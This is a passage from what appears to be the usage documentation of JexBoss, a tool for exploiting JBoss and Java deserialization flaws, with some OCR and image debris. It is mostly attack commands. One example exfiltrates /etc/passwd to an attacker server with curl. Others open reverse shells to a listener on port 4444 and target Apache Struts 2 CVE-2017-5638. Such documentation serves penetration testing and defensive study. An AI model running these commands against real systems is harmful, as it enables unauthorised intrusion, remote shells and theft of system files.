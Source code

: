        Example:
         Shell>jexremote=192.168.0.10:4444

-   Example:    ![](resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId41.jpg){width="5.833333333333333in"
    height="1.895372922134733in"}

When exploiting java deserialization vulnerabilities (Application
Deserialization, Servlet Deserialization), the default options are: make
a reverse shell connection or send a commando to execute.

Usage examples
--------------

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to send a custom command to be executed on the exploited server:

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to make a reverse shell (this will ask for an IP address and
    port of your remote host):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name

-   For Java Deserialization Vulnerabilities in a Servlet (like
    Invoker):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize

-   For Apache Struts 2 (CVE-2017-5638)

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
